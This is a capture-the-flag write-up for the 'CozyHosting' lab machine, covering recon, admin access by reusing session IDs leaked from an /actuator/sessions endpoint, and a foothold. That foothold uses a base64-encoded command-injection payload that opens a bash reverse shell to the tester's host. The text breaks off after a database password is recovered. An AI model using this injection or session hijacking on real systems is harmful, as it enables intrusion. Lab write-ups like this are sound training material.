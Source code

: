 # CozyHosting (Easy)

![image](https://github.com/JefJacobs00/writeups/assets/43653885/0e4dc31a-ab63-448c-b7bf-6eafc355715d)

## Recon
### Nmap portscan

![image](https://github.com/JefJacobs00/writeups/assets/43653885/3ad04db2-ff2f-46d5-8e71-67a838d5c909)

The box has an open http and ssh service. We see that the http service redirects to "cozyhosting.htb". To access the site we need to add this to the /etc/hosts file with the corresponding ipaddress.

### Webserivce recon

The next step is to search trough the webapplication for vulnerabilities. We can use gobuster to search for available endpoints during the gobuster scan we can also checkout the site itself.

Gobuster finds a login and admin page. 

![image](https://github.com/JefJacobs00/writeups/assets/43653885/9b84ff13-ac35-4115-b9af-08c11655a442)

We also run a bigger search with dirsearch:

![image](https://github.com/JefJacobs00/writeups/assets/43653885/0502985e-c94b-4529-a13f-6ae50a77e6b5)

When we try to access the admin page we get a 401 (unathorised) and we get redirected to the login page. We try if SQLmap can get us somewhere on this page. This takes a while so we wait lets checkout if [hacktrics](https://book.hacktricks.xyz/pentesting-web/login-bypass) has any tips on how to get past the login page. hacktricks mentions to check if there is a remember me option. This is the case, this might allow us to use a session of a different user with access. From the dirsearch scan we found the page /actuator/sessions this page gives a couple of session ids: 

{
"E1A5A3A6778ADB55DBFA378AD0AB7354":"UNAUTHORIZED",
"8BE8064ACAC4926BE4FEB88BB5AE51DA":"kanderson",
"6113EB51B6B91DCC48C32B5011FE3B99":"UNAUTHORIZED",
"216136184FF0A10378CB091EE802718A":"kanderson",
"C9CCE6A596277216FD58C694BAAE212B":"UNAUTHORIZED"
}

two of these are not UNauthorized and belong to kanderson: 

216136184FF0A10378CB091EE802718A
8BE8064ACAC4926BE4FEB88BB5AE51DA

By changing the cookie we get access to a admin dashboard

![image](https://github.com/JefJacobs00/writeups/assets/43653885/a6313337-ef37-4f02-8702-ef2699af66e3)


### Foothold

At the bottom of the admin dashbord there is a box that allowes us to connect using ssh. However this does not get us get onto the box. In burpsuite we use the payload `{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTEvOTAwMSAwPiYx}|{base64,-d}|bash|` to get a reverse shell. 

![image](https://github.com/JefJacobs00/writeups/assets/43653885/8d9dc9e3-1aba-4834-8f76-dd9d4f5f814e)

We see that there is a user josh and a user prostgress that has access to the box. In the home folder we find a jar file that we download onto our machine and unzip. In the application.properties file we find the db credentials with user postgres and the password Vg&nvzAQ7XxR. 

![image](https://github.com/JefJacobs00/writeups/assets/43653885/8b5c8d0f-40c1-46cd-b2ee-86ac90fd4081)

We put these hashes into john to find the cleartext. 











